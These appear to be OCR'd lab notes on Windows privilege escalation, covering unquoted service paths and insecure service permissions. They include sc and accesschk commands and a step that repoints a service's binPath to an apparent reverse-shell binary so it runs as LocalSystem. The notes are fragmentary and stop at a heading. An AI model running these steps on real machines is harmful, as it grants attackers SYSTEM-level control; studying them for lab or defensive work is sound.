 # Valid paths:

# C:\MyPrograms\Disk.exe

# C:\MyPrograms\Disk Sorter.exe

# C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe

sc qc "disk sorter enterprise"

  

# Move the malicious binary to any of the path if the path is writable

  

  

  

1. Insecure Service Permissions

  

- use access check from sys internals : [https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk)

  

# Check servicee permissions

 accesschk64.exe -qlc thmservice

  

# After getting the malicious binary to target machine, update the service config

sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem

  

# Restart the service

sc stop THMService

sc start THMService

  

  

1. Unpatched software

